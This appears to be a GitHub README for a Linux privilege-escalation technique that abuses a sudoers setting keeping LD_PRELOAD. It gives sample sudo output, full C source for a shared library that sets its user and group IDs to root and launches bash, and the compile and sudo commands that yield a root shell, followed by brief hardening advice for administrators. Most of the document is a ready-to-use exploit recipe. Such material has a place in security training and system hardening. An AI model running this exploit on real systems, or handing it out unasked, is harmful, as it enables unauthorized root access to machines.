 # 📌 Gaining Root Shell via LD_PRELOAD

This project demonstrates how to gain a root shell using the `LD_PRELOAD` environment variable by exploiting specific `sudo` privileges assigned to a user.

## 📚 Description

If the `sudo` configuration allows keeping the `LD_PRELOAD` environment variable (e.g., `env_keep+=LD_PRELOAD`) and the user is allowed to run specific programs as `root` with `NOPASSWD`, it is possible to escalate privileges and spawn a root shell using a custom `.so` library.

Example `sudo -l` output:

```bash
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/nmap
    ...
    ...
```

## 🛠️ Installation & Usage

### 1. Write the C Library

Create a file called `library.c` and add the following code:

```bash
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

### 2. Compile

Compile the file into a shared object using the following command:

```bash
gcc -fPIC -shared -o /tmp/library.so library.c -nostartfiles
```

### 3. Spawn a Root Shell

Execute a binary that you are allowed to run as root, using `LD_PRELOAD`:

```bash
sudo LD_PRELOAD=/tmp/library.so /usr/bin/nmap
```

You should now have a root shell (indicated by the `#` prompt).

## 🔒 Security Recommendations

For system administrators:

- Avoid using `env_keep+=LD_PRELOAD` in `sudoers`, as it poses a security risk.
- Use `NOPASSWD` judiciously and restrict to essential commands only.
- Always follow the principle of least privilege when assigning sudo rights.

